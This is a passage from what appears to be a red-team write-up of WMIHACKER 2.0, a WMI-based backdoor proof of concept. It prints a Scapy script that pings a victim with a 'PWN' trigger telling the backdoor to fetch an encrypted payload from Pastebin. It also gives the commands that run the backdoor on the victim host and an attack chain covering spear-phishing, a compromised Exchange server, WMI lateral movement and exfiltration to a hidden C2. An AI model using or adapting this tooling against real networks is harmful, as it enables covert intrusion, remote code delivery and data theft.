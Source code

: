 ```
from scapy.all import *

victim_ip = input("Enter the victim's IP address: ").strip()

id = input("Enter the Pastebin ID: ").strip()

packet = IP(dst=victim_ip)/ICMP(type=8)/Raw(f"PWN:{id}")

packet.show()

send(packet)

print("Packet sent!")
```

This script (`checker.py`) sends a specially crafted ICMP Echo Request (ping) packet to a victim machine. The payload of the ICMP packet contains an identifier called PWN (Pastebin ID) that tells the backdoor on the victim side where to fetch the encrypted payload.

![PoC TG](/PoC_TG.jpg)

![PoC TG2](/PoC_TG2.jpg)

Above you can see the Proof of Concept implementation of the WMI-based backdoor.

On victims host: 

```
PS> python wmihacker.py <LOCAL IP> 
```
or

```
PS> wmihacker.exe <LOCAL_IP> # build with PyInstaller
```

I deployed whole project here: https://github.com/s0ld13rr/WMIHACKER

![WMIHACKER CHAIN](/chain_wmihacker.png)

The attack chain might look this way:

1. Initial access on a client machine via spear-phishing (T1566.001).

2. That machine sends a specially crafted packet to an internal Exchange server (already compromised).

3. The Exchange server, running a WMI backdoor, executes commands on other machines (T1047).

4. Collected data is sent to a completely separate, hidden C2 server.

As I wrote in previous section, the WMIHACKER 2.0 use the asymmteric C2 approach for more stealthier lateral movement and execution. This is just a Proof-of-Concept tool and has several issues in OPSEC and Persistence. 

## MITRE ATT&CK mapping
